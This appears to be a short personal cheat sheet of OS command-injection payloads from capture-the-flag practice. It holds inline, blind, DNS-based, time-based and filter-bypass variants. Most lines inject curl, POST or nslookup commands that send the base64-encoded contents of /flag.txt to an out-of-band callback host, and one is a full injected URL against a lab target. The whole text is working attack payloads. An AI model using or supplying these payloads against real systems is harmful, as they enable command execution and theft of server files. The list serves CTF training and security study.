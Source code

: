 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```

![[Pasted image 20241215201548.png]]

# File Uploads

![[Pasted image 20241215202307.png]]

![[Pasted image 20241215204332.png]]

# Zip File Uploads

```
$(nslookup `cat${IFS}/flag.txt`.puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun)
```

